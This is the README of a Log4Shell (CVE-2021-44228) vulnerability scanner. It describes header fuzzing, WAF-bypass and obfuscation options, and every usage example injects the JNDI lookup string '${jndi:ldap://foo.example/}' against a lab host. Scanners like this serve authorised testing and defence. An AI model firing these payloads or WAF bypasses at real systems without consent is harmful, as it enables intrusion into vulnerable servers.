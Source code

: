 # log4j-scan
A fully automated, accurate, and extensive scanner for finding vulnerable log4j hosts

# Features

- Support for lists of URLs.
- Fuzzing for more than 60 HTTP request headers (not only 3-4 headers as previously seen tools).
- Fuzzing for HTTP POST Data parameters.
- Fuzzing for JSON data parameters.
- WAF Bypass payloads.

# Usage

```
$ python3 log4j-scan.py -h
[+] CVE-2021-44228 - Apache Log4j RCE Scanner
[+] Scanner provided with modifications by ReliaQuest
usage: log4j-scan.py [-h] [-u URL] [--proxy PROXY] [-l USEDLIST] [-x REQUEST_TYPE] [--headers-file HEADERS_FILE] [--all-methods] [--exclude-user-agent-fuzzing] [--waf-bypass] [--disable-http-redirects] -p
                     EXPLOIT_PAYLOAD [-o]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Scan a single URL.
  --proxy PROXY         Send requests through a HTTP proxy. Proxy should be specified in the format supported by requests (http[s]://<proxy-ip>:<proxy-port>
  -l USEDLIST, --list USEDLIST
                        File path to text file containing URLs to scan
  -x REQUEST_TYPE, --request-type REQUEST_TYPE
                        Request Type: (get, post) - [Default: get].
  --headers-file HEADERS_FILE
                        Headers fuzzing list - [default: headers.txt].
  --all-methods         Attempt both POST and GET requests
  --exclude-user-agent-fuzzing
                        Exclude User-Agent header from fuzzing - useful to bypass weak checks on User-Agents.
  --waf-bypass          Extend scans with WAF bypass payloads.
  --disable-http-redirects
                        Disable HTTP redirects. Note: HTTP redirects are useful as it allows the payloads to have higher chance of reaching vulnerable systems.
  -p EXPLOIT_PAYLOAD, --payload EXPLOIT_PAYLOAD
                        The ReliaQuest provided testing string
  -o, --obfuscate       Use obfuscation on the payload (may result in application performance degradation)
  -s, --small-payloads  Use smaller payloads. Generates more requests, but reduces size of requests. (Recommended)
```

## Scan a Single URL

```shell
$ python3 log4j-scan.py -u https://log4j.lab.local -p '${jndi:ldap://foo.example/}'
```

## Scan a Single URL using all Request Methods: GET, POST (url-encoded form), POST (JSON body)

```shell
$ python3 log4j-scan.py -u https://log4j.lab.local --run-all-tests -p '${jndi:ldap://foo.example/}'
```

## Discover WAF bypasses on the environment.

```shell
$ python3 log4j-scan.py -u https://log4j.lab.local --waf-bypass -p '${jndi:ldap://foo.example/}'
```

## Scan a list of URLs

```shell
$ python3 log4j-scan.py -l urls.txt -p '${jndi:ldap://foo.example/}'
```

## Use smaller payloads
This method generates more requests to the target application(s), but results in **significantly smaller payload sizes**.

```shell
$ python3 log4j-scan.py -s -u https://log4j.lab.local -p '${jndi:ldap://foo.example/}'
```

You may find it advantageous to combine this with the `--exclude-user-agent-fuzzing` switch so that the User-Agent string remains as its default

```shell
$ python3 log4j-scan.py -s --exclude-user-agent-fuzzing -u https://log4j.lab.local -p '${jndi:ldap://foo.example/}'
```

## Use the obfuscation library
The provided `jndiobfuscator` can be leveraged with the `-o` switch. Resulting payloads will result in significantly more load on the target application, use this with caution. This can be combined with other options such as the `--waf-bypass` option.

```shell
$ python3 log4j-scan.py -u https://log4j.lab.local -p '${jndi:ldap://foo.example/}'
```


# Installation

```
$ pip3 install -r requirements.txt
```

# Docker Support

```shell
cd log4j-scan
sudo docker build -t log4j-scan .
sudo docker run -it --rm log4j-scan

# With URL list "urls.txt" in current directory
docker run -it --rm -v $PWD:/data log4j-scan -l /data/urls.txt -p '${jndi:ldap://foo.example/}'
```

# Legal Disclaimer
This project is made for educational and ethical testing purposes only. Usage of log4j-scan for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


# License
The project is licensed under MIT License.
